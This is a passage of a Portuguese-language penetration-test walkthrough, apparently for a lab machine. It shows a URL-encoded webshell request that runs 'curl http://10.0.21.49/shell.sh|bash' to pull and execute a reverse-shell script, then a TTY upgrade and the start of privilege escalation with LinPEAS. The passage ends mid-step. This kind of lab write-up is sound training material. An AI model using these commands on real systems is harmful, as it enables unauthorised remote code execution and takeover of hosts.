 
### 4. Enviar via WebShell com **URL Encode** (como no PDF):

```bash
cmd=curl%20http%3A%2F%2F10.0.21.49%2Fshell.sh%7Cbash
```

---

### 5. Requisição completa via Burp:

```http
GET /_ul/vert16x?cmd=curl%20http%3A%2F%2F10.0.21.49%2Fshell.sh%7Cbash
```

📌 Se o `python3 -m http.server` mostra um `GET /shell.sh`, e o Netcat conecta, você tem shell reversa!

---

## 🔹 **PASSO 9 – Upgrade do Shell para TTY**

No shell recebido:

```bash
python -c "import pty;pty.spawn('/bin/bash')" 
Ctrl+Z
stty raw -echo;fg 
Enter 
export TERM=xterm
```

---

## 🔹 **PASSO 10 – Privesc via Linux Capabilities (`cap_sys_admin`)**

## ✅ Etapa: Executar o **LinPEAS** para encontrar uma brecha de privesc

### 🔹 **1. No seu Kali (máquina de ataque):**

Entre no diretório que quiser e baixe o LinPEAS:

bash

CopiarEditar

`wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`

Depois, rode um servidor HTTP:

bash

CopiarEditar

